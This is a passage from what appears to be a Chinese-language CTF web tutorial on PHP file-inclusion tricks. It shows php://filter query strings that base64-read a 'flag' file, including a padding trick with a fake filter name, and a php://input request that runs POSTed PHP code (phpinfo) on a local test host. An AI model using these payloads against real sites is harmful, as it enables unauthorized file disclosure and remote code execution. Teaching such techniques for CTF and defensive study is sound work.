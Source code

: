 <br>

<br>

**补充小知识点:**

**`php`伪协议中,在任意位置套一层其他协议,虽然可能会产生报错,但是不影响输出,(无法找到对应的过滤器时就会跳过它),这在payload需要包含一些特殊字符时很好用,例如:**

```
?category=php://filter/meowers/read=convert.base64-encode/resource=flag
?category=php://filter/read=convert.base64-encode/meowers/resource=flag
//这里并不存在的'meowers'可以放在任意位置
```

![image-20221020001536369](/images/ctf-web02/image-20221020001536369.png)

## 3.2_php://input

可以用来执行`POST`数据中的`php`代码

例如:  对于`include.php` 中的`file`变量: 

```
http://127.0.0.1/include.php?file=php://input
```

然后通过`HackBar`插件来POST一段php代码:

```
<?php phpinfo(); ?>
```

效果: 成功执行了上述代码

<img src="/images/ctf-web02/1.jpg" alt="1" style="zoom:67%;" />
